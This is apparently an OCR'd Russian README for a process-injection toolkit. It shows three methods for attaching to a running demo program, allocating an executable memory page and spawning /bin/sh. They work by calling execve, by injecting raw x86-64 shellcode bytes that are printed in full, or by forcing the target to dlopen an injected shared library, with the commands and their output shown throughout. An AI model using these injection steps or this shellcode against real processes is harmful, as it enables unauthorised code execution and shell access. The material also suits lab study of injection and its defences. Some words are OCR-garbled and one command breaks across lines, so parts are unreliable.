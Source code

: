 # Алгоритмы 

## Алгоритм 1
* Подключиться к процессу запущенной программы `simple_loop`
* Выделить память на `чтение/запись/исполнение`
```bash
$ ./alloc_pages.py -p $(pgrep simple_loop) -n 1 -d '/bin/sh'

# Output:
# attached
# successful trap
# rwx page has address 0x7fde5e171000L
```
* Записать строку, содержащую путь до `shell`-интерпретатора, в выделенную память
```bash
$ ./call_execve.py -p $(pgrep simple_loop) -a $(printf "%d" 0x7fde5e171000)

# Output:
# attached
# successful trap
```
* Подготовить регистры для вызова системной функции `execve` 
* Выполнить прерывание 

## Алгоритм 2
* Подключиться к процессу запущенной программы `simple_loop`
* Выделить память на `чтение/запись/исполнение`
```bash
$ ./alloc_pages.py -p $(pgrep simple_loop) -n 1 
-d $(echo -e \
'\x48\x31\xd2\x48\x31\xf6\x48' \
'\x31\xc0\x48\xb9\x2f\x2f\x62' \
'\x69\x6e\x2f\x73\x68\x50\x51' \
'\xb0\x3b\x48\x89\xe7\x0f\x05')

# Output:
# attached
# successful trap
# rwx page has address 0x7f1965eba000L
```  
* Записать строку, содержащую команды по подготовке регистров и вызову системной функции ехесуе, в выделенную память 
```bash
$ ./call_execve_via_addr.py \
-p $(pgrep simple_loop) \
-a $(printf "%d" 0x7f1965eba000)

# Output:
# attached
# successful trap
```
* Установить значение регистра `rax` равным адресу памяти
* Выполнить переход по указанному адресу (`call rax` или `jmp rax`)
## Алгоритм 3
* Подключиться к процессу запущенной программы `simple_loop`
* Выделить память на `чтение/запись/исполнение`
```bash
$ ./alloc_pages.py -p \
$(pgrep simple_loop_dl) -n 1 \
-d './execve_sh_dl.so'

# Output:
# attached
# successful trap
# rwx page has address 0x7f1038b0f000L
```
* Записать строку, содержащую путь до инъектируемой во-библиотеки, в выделенную память
```bash
$ ./call_execve_via_dl.py \
-p $(pgrep simple_loop_dl) \
-a $(printf "%d" 0x7f1038b0f000)

# Output:
# attached
# successful trap
```
* Установить значение регистра гах равным адресу функции `dlopen`
* Выполнить переход по указанному адресу (`call rax` или `jmp rax`)
  
> Ограничение: программа `simple_loop` должна быть собрана с поддержкой библиотеки `libdl.so` 
> 
> (`simple_loop`  `simple_loop_dl`) 

